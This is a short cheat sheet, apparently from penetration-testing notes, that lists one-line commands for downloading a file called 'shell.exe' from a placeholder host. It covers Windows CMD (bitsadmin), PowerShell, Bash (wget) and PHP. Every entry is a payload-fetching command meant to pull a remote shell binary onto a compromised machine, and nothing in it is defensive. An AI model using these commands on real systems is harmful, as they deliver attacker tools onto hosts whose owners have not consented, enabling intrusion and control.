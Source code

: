 # Windows

### CMD
```cmd
bitsadmin /transfer shell /priority high http://example.com/shell.exe c:\temp\shell.exe
```

### PowerShell
```powershell
powershell -command "& {(New-Object Net.WebClient).DownloadFile('http://example.com/shell.exe','c:\temp\shell.exe')}"
Invoke-WebRequest http://example.com/shell.exe -OutFile shell.exe -UseBasicParsing
```

# Linux

### Bash
```bash
$ wget http://example.com/shell.exe
```

# General

### PHP
```php
php -e 'file_put_contents("shell.exe",file_get_contents("http://example.com/shell.exe"));'
```
